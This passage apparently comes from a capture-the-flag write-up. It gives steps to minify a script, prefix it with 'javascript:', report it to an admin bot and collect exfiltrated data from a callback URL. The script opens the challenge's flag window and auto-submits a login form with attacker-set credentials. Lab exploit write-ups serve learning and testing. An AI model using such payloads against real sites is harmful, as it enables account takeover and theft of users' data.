 ```html
        })
      });
    }
  };

  main();
</script>
```

*Note: some concessions were made to keep the note length under 1000 characters.*

Then update the settings of the below code (especially the credentials), uglify
it using [UglifyJS](https://uglifyjs.net/) or something similar, prepend
`javascript:` to it, report the URL, wait ~20 seconds, and check the callback
URL or the notes page (depending on the exfiltration method).

```javascript
//Settings
const username = 'aaaa';
const password = 'bbbb';

//Open the flag window
window.open('http://0.0.0.0:8080', 'flagWindow');

//Create the form
const form = document.createElement('form');
form.action = 'http://0.0.0.0:8080/login';
form.method = 'POST';
form.target = '_blank';

const usernameInput = document.createElement('input');
usernameInput.type = 'text';
usernameInput.name = 'username';
usernameInput.value = username;
form.appendChild(usernameInput);

const passwordInput = document.createElement('input');
passwordInput.type = 'password';
passwordInput.name = 'password';
passwordInput.value = password;
form.appendChild(passwordInput);

const submit = document.createElement('input');
submit.type = 'submit';
form.appendChild(submit);

//Add to the document
document.body.appendChild(form);

//Submit
submit.click();
```